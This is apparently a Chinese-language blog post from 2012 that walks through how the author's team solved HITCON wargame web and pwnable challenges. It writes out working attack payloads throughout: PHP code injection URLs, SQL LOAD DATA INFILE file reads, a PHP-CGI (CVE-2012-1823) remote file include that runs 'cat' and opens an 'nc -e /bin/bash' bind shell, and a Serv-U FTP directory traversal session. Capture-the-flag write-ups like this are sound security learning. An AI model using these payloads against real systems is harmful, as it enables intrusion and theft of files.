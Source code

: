 ```yaml
---
layout: post
title: "HITCON 2012 Wargame Notes"
tags:
- hit
- hitcon
- note
- hack
- web
- wargame
- security
redirect_from: /2012/07/22/hitcon-2012-wargame-notes.html
---
```


今年是第二年來 HITCON ，去年感謝 atdog 大大帶我一起報名 HITCON 玩 wargame ，
本來想說和去年一樣解解 QR code 我就很開心了，沒想到今年運氣不錯 XD

感謝同隊 crax 的組員： atdog xman jeffxx cyen hliu kvchung

Wargame 題目有大大幫忙備分了：[HITCON 2012 Wargame](http://rsghost.org/backup/wargame.hitcon.org/)

## Wargame 心得

這次因為運氣好，所以有幾題 web 都用爛招解掉了 XD
用和 hint 沒關係的解法繞掉其實解的有點心虛，下面是今年我有幫到一些忙的題目：

### Web 1

主要就是利用 `{${fucntion()}}` 來直接執行 php function ，本來想用 `file_get_contents()` 來讀 `key.php` 發現被擋掉了，
所以就試著用 `include()` 再用 `get_defined_vars()` 和 `var_dump()` 看有沒有設什麼變數，還好 `key.php` 是把 key 放在變數裡，
不然的話就要用其他方法去看 source 了。

    http://wg.hack.idv.tw/~ow100/orange.php?name=dm4&data={${include($_GET[key])}}{${var_dump(get_defined_vars())}}
    http://wg.hack.idv.tw/~ow100/yourfiles/dm4.config.php?key=../key.php

### Web 2

利用 Web 3 給的 `sqln00b/sqln00b` 可以登入 phpMyAdmin ，接著把 `key.php` LOAD 到任何一個 table 就可以了：

    CREATE TABLE web2 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/ow200/public_html/key.php' INTO TABLE web2;

### Web 4

從 `info.php` 發現 `Server API: CGI` 想到應該是在說今年的 [PHP CGI vulnerability](http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/)
，這東西今年出來的時候有看一下，不過其實還是在解題的時候才真的看懂 XD

在 `htaccess.txt` 裡可以看到

    RewriteCond %{QUERY_STRING} \-|\-d[a-z_]+%3d|%2d[a-z_]+%3d [NC]

發現 `%2d` 擋的比較鬆，所以研究了一下可以用

    http://wg.hack.idv.tw/~w100/info.php?%2dd+allow_url_include%3dOn+%2dd+auto_prepend_file%3dhttp://myhost/a.txt

來做 remote code execution ，試了一下就可以發現要找的東西在 `../key.txt` ，所以在 `a.txt` 這樣寫就可以讓它噴 key 了：

    <?php
        system('cat ../key.txt');
        exit();
    ?>

本來以為這題這樣就結束了，不過我們想到既然可以用 `cat` ，搞不好這題可以......

    <?php
        system('nc -l -p 5566 -e /bin/bash');
        exit();
    ?>

然後......

    [~] $ nc wg.hack.idv.tw 5566
    id
    uid=1002(w100) gid=33(www-data) groups=1002(w100),33(www-data)

### Web 3

這題看 hint 應該是要用 mysql client 的 `system` 來解，不過我們利用 Web 4 拿到的 back connect shell
可以發現要找的東西是 `/home/my100/key.txt` ，所以一樣用：

    CREATE TABLE web3 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/my100/key.txt' INTO TABLE web3;

就可以在 Web 2 的 phpMyAdmin 看到 key 囉~

### Web 6

也是用爛招...... 用 Web 4 拿到的 shell 去看 Web 6 的 source ，在 `/home/a200/public_html/index.php`
裡面會判斷如果用 `admin` 登入的話，會噴 base64 encode 之後的 key

### Potent Pwnables 2

`nmap` 完之後發現有開 ftp ，查了一下發現有 [Serv-U FTP Jail Break](http://www.exploit-db.com/exploits/18182/)
和 hint 一模一樣應該就是它了吧 XD 不過那時候肚子太餓又找不到怎麼登入 ftp ，把連結跟 atdog 說了之後我就出去吃點心，
回來之後就被解掉了，id/pw 好像就是 `hitcon2012/hitcon2012` ，隊友好強啊！

關鍵是 `Plz Input "Your" Real ID:` 要用 `wargame.hitcon.org` 的帳號去 generate key.txt 接下來就：

    [~] ➟  ftp jumpochisun.blogsyte.com
    Connected to jumpochisun.blogsyte.com.
    220 Serv-U FTP Server v6.4 for WinSock ready...
    Name (jumpochisun.blogsyte.com:dm4): hitcon2012
    331 User name okay, need password.
    Password: 
    230 User logged in, proceed.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> get ..:/..:/..:/..:/key/dm4key.txt key.txt
    local: key.txt remote: ..:/..:/..:/..:/key/dm4key.txt
    227 Entering Passive Mode (114,36,241,246,15,231)
    150 Opening BINARY mode data connection for dm4key.txt (28 Bytes).
    100% |**************************************************|    28      179.89 KiB/s    00:00 ETA
    226 Transfer complete.
    28 bytes received in 00:00 (0.80 KiB/s)



剩下的時間都在試著解 Web 5 ，以及一直看 [駭客觀察日記](http://www.youtube.com/watch?v=l2dvg3KJoPo)
不過看到結束還是沒找到應該怎麼解......

再次感謝辛苦的主辦單位和工作人員！還有又強又好心收留我帶我一起玩的 crax 隊友！

爽啊！

<a href="http://www.flickr.com/photos/51077287@N06/7635469218/" title="Flickr 上 sunrisedm4 的 hitcon-2012-wargame-socre"><img src="http://farm9.staticflickr.com/8426/7635469218_ee0dbce135.jpg" width="500" height="225" alt="hitcon-2012-wargame-socre"></a>
